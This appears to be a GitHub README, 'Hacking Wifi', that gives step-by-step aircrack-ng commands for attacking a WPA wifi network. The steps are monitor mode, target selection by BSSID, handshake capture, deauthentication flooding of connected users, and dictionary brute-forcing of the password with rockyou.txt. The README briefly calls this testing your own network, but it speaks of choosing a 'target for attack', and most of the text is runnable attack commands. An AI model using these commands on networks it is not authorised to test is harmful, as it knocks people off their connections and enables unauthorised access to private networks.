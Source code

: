 # Hacking Wifi
This repository will detail the principle of testing your network. With <a href="https://www.aircrack-ng.org/">aircrack-ng</a>.<br>

__You can look at the script repository for hacking a wifi network. <a href="https://github.com/John-MetrosSoftware/HackingWifiScript">Link</a>.__

## Install aircrack-ng
```
sudo apt install aircrack-ng
```

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```
aireplay-ng --deauth 100 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.
## Developer 
Email    : wwwkali00312@gmail.com<br>
Telegram : https://t.me/metrossoftware
